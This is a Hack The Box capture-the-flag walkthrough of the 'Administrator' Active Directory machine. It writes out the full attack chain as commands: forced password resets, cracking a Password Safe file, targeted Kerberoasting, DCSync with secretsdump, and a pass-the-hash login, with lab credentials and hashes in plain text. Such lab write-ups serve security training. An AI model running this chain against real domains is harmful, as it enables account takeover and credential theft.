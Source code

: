 ```yaml
---
date: 2025-04-03
categories: [CTF, HTB]
title: "HTB - Administrator - AD Breach"
tags: ['bloodhound', 'ftp', 'hashcat', 'impacket', 'nmap', 'privilege escalation', 'python', 'rce', 'secretsdump', 'smb', 'windows', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']


description: "Administrator - AD Breach - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Administrator - AD Breach

We are given the following account to start with:
Username: **Olivia**
Password: **ichliebedich**

NMAP

![image1](../resources/50e46876cd2243c5875f4d000d2a5a48.png)

- Check creds:

```bash
crackmapexec smb 10.10.11.42 -u "olivia" -p "ichliebedich"

```

![image2](../resources/07a7fbc74a9a4430b6acaec81089d3f5.png)

- WinRM in:

```bash
evil-winrm -i 10.10.11.42 -u "olivia" -p "ichliebedich"

```

![image3](../resources/a330f4d2344c4dd2bd8b5737b26aa317.png)

- Run BloodHound:

```bash
bloodhound-python -c all -d administrator.htb -dc dc.administrator.htb -u olivia -p "ichliebedich" -ns 10.10.11.42

```

![image4](../resources/5df522cb9cd34b5da1316b10b77b064f.png)


![image5](../resources/954e4fc6fde94791ae772fb6549e1e9b.png)


![image6](../resources/eeb16fc489d347299848ff00c4ca39e7.png)


![image7](../resources/1994c18fafa741a2b1bdc8b5ebcb1142.png)

- Change passwords for users:

```bash
rpcclient -U 'administrator.htb/olivia%ichliebedich' 10.10.11.42

setuserinfo2 michael 23 'Password1'

rpcclient -U 'administrator.htb/michael%Password1' 10.10.11.42

setuserinfo2 benjamin 23 'Password1'

```

- We can remote in with Michael:

![image8](../resources/1c7be244480341b89c095e84a2595fe7.png)

And he has PowerView in his Documents folder

- Moving on - We changed Benjamin's password as well

- He can't remote in
- Shares doesn't show anything special

- But he can log in to the ftp server:

```bash
ftp 10.10.11.42
```

![image9](../resources/f6d47ff05f304409a87a88cfd036ebf7.png)

- We get a psafe3 file:
Password Safe V3 database


![image10](../resources/09335f53afec4e53b04fc16c7c05893d.png)

- Searching online, we see hashcat can crack it without extracting the hash first:

![image11](../resources/1dca03b18a0943eb85b6320b3c30e589.png)

```bash
hashcat -m 5200 -a 0 Backup.psafe3 /usr/share/wordlists/rockyou.txt

```

![image12](../resources/d46253ec2a934d048f1846eaa8e059f7.png)

**Backup.psafe3 : tekieromucho**

- Download and open file in PasswordSafe:

![image13](../resources/c2694de1375d4f34a49ef15c7f993483.png)


![image14](../resources/9ae4d9e735e54f0d9011796a26fa8333.png)

alexander : UrkIbagoxMyUGw0aPlj9B0AXSea4Sw

emily : UXLCI5iETUsIBoFVTj8yQFKoHjXmb

emma : WwANQWnmJnGV07WQN8bMS7FMAbjNur

- We have Emily's password --\> which has **GenericWrite** over Ethan --\> Which can DCSync

**<u>From Windows</u>**
- Upload PowerView.ps1 and run:

```bash
. .\Powerview.ps1

Set-DomainObject -Identity ethan -Set @{serviceprincipalname="SPN/ethan}

```

![image15](../resources/fb6763e2b8584240a8e3cf5bc12ff489.png)

Remove the SPN After Obtaining the Hash:

```bash
Set-DomainObject -Identity target_user_samaccountname -Remove @{serviceprincipalname="SPN/targetuser"}
sudo ntpdate -u 10.10.11.42
impacket-GetUserSPNs administrator.htb/emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb -dc-ip 10.10.11.42 -request
```

![image16](../resources/5cf2fd9fc0434402a1958344e7cfa61d.png)

**<u>Or from KALI:</u>**
[TargetedKerberoast:](https://github.com/ShutdownRepo/targetedKerberoast?tab=readme-ov-file)

```bash
python3 targetedKerberoast.py -d administrator.htb -u emily -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" --dc-ip 10.10.11.42

```

![image17](../resources/ad38bf2545734ff7a752129f45ce9067.png)

```bash
hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

```

![image18](../resources/c12e2f812bec4aa8b0b6ca0855ed03d5.png)

**ethan : limpbizkit**

- Ethan has DCSync rights:

```bash
impacket-secretsdump administrator.htb/ethan:limpbizkit@10.10.11.42

```

![image19](../resources/d8f1510a09554b059fa8c03c14745b2d.png)

```bash
evil-winrm -i 10.10.11.42 -u "administrator" -H "3dc553ce4b9fd20bd016e098d2d2fd2e"

```

![image20](../resources/1e9bb9cf9b1441a284f28afe15c0c11e.png)